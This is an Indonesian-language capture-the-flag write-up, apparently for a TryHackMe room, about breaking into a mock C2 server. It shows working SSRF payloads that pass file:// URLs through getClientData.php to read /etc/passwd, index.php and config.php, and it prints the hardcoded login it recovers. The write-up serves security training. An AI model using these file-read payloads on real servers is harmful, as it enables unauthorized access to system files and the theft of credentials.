 scan dengan rustscan
```

```

tambahkan host
```
sudo vim /etc/hosts
...
127.0.0.1       ***
127.0.0.1       ***
IP-target		mcgreedysecretc2.thm
```

buka `http://mcgreedysecretc2.thm`. C2 server ini diproteksi dengan login form, namun terdapat link dokumentasi untuk akses c2 dengan API, kita dapat menggunakannya.

gunakan ssrf untuk mengakses file-file yang ada di server.
```
http://IP-target/getClientData.php?url=file:////////etc/passwd
...
ubuntu:x:1000:1000:...
...
```

karena sudah dapat dipastikan bisa untuk mengakses file `/etc/passwd`, maka kita bisa coba untuk akses `index.php`
```
http://IP-target/getClientData.php?url=file:////////var/www/html/index.php
...
<?php
session_start();
include('config.php');

// Check if the form was submitted
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Retrieve the submitted username and password
  
  $uname = $_POST["username"];
    $pwd = $_POST["password"];

    if ($uname === $username && $pwd === $password) {

```

dari file `index.php`, kita dapat lihat terdapat file `config.php`, jadi kita dapat coba untuk lihat isinya
```
http://IP-target/getClientData.php?url=file:////////var/www/html/config.php
...
$username = "mcgreedy";
$password = "mcgreedy!@#$%";
...
```

dan ternyata berisi creds `mcgreedy:mcgreedy!@#$%`. Kita dapat menggunakan creds tersebut untuk login ke C2 server dan mendapatkan flag.